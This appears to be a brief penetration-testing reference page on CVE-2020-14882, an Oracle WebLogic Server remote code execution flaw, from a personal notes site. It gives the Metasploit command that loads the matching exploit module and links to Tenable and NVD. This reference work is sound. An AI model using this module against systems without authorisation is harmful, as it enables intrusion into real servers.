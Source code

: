 ```yaml
---
title : "CVE-2020-14882"
# pre : ' '
description : "Oracle WebLogic Server RCE."
date : 2021-02-17T09:49:17+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2020-14882 - Oracle WebLogic Server RCE

Metasploit (Oracle WebLogic Server Administration Console Handle RCE)

### Exploit

```plain
msf6> use exploit/multi/http/weblogic_admin_handle_rce
```

## URL List

- [Tenable.com](https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild)
- [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2020-14882)
